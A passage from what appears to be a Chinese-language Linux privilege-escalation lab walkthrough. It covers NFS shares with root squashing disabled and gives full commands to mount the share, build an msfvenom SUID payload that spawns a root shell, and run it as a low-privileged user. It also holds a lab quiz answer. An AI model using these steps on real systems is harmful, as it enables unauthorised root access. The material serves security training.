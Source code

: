 在继续之前，请记得退出 root shell！

## NFS

通过 NFS 创建的文件会继承远程用户的 ID。如果用户是 root，并且启用了 root 压缩（root squashing），那么 ID 将被设置为 “nobody” 用户。

检查 Debian 虚拟机上的 NFS 共享配置：

```shell
cat /etc/exports
```

请注意，`/tmp` 共享已禁用了 root 压缩。

在您的 Kali 系统上，如果您还没有以 root 用户身份运行，请切换到 root 用户：

```shell
sudo su
```

使用 Kali 的 root 用户，在您的 Kali 系统上创建一个挂载点，并挂载 `/tmp` 共享（根据需要更新 IP）：

```shell
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

继续使用 Kali 的 root 用户，使用 `msfvenom` 生成一个 payload，并将其保存到挂载的共享目录中（这个 payload 只是调用 `/bin/bash` ）：

```shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

仍然使用 Kali 的 root 用户，将文件设为可执行并设置 SUID 权限：

```shell
chmod +xs /tmp/nfs/shell.elf
```

回到 Debian 虚拟机，在低权限用户账户下执行该文件以获取 root shell：

```shell
/tmp/shell.elf
```

在继续之前，请记得退出 root shell！

:::info Answer the questions below

禁用 root 压缩的选项的名称是什么？

```shell
no_root_squash
```

:::

## 内核漏洞利用

内核漏洞利用可能导致系统处于不稳定状态，因此只有在最后一种情况下才应该运行它们。

运行 `Linux Exploit Suggester 2` 工具，识别当前系统可能存在的内核漏洞利用：
